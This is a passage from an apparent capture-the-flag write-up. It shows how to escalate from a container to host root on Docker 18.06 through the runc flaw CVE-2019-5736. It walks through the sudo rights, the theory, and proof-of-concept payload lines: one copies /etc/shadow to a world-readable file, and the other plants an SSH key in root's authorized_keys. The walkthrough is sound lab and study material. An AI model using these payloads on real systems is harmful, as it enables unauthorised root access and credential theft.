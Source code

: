     
    
    noah@thenotebook:~$ sudo -l
    Matching Defaults entries for noah on thenotebook:
        env_reset, mail_badpass,
        secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
    
    User noah may run the following commands on thenotebook:
        (ALL) NOPASSWD: /usr/bin/docker exec -it webapp-dev01*
    

When looking at this, the important thing to look at is the version of Docker
running:

    
    
    noah@thenotebook:~$ docker -v
    Docker version 18.06.0-ce, build 0ffa825
    

### CVE-2019-5736

#### Theory

There’s a vulnerability in the version of `runc` used by Docker before 18.09.2
([CVE-2019-5736](https://nvd.nist.gov/vuln/detail/CVE-2019-5736)) which allows
at attacker to overwrite the host `runc` binary from access as root inside a
container, and thus gives host root access. [This post from
Unit42](https://unit42.paloaltonetworks.com/breaking-docker-via-runc-
explaining-cve-2019-5736/) does a really good job of breaking it down in
detail.

The idea is that from within the container, I’ll overwrite `/bin/sh` with
`#!/proc/self/exe`, which is a symbolic link to the binary that started the
container process. Next, I’ll write to the `runc` binary (which is shared on
the host), and have it point to the payload.

Now, when someone tries to initiate a container (ie, runs `docker exec` from
the host), the payload will execute on the host as root.

#### Practice

There are tons of POCs out there, but I really like [this
one](https://github.com/Frichetten/CVE-2019-5736-PoC). It’s a simple Go
script, which I’ll save on my system. At line 15-16, there’s the payload that
will be executed:

    
    
    // This is the line of shell commands that will execute on the host
    var payload = "#!/bin/bash \n cat /etc/shadow > /tmp/shadow && chmod 777 /tmp/shadow"
    

I’ll change that to write my SSH key to `/root/.ssh/authorized_keys`:

    
    
    var payload = "#!/bin/bash \n mkdir -p /root/.ssh && echo 'ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIDIK/xSi58QvP1UqH+nBwpD1WQ7IaxiVdTpsg5U19G3d nobody@nothing' > /root/.ssh/authorized_keys" 
    
